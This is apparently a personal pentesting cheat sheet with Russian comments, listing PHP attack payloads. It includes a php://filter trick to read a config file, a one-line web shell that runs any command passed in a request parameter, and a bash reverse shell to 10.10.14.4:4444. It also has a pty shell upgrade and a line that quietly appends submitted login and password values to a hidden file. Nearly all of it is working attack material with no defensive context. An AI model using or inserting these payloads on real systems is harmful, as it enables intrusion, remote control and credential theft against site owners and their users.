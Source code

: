 # PHP

# PHP filter

php://filter/convert.base64-encode/resource=config

# CMD
    <?php system($_REQUEST['pwn']); ?>

  inddex.php?pwn=ls

# ReverseShell

<?php system ('bash -c "bash -i >& /dev/tcp/10.10.14.4/4444 0>&1"'); ?>

python -c 'import pty;pty.spawn('/bin/bash')'
# Запись в файл переменных

file_put_contents(".max", $_POST['log'] . ":" . $_POST['pwd'] . "\n" , FILE_APPEND);

#PHP server

php -S 127.0.0.1:80 и запускаем ето в том каталоге где лежит файл php

Передача параметров - $1
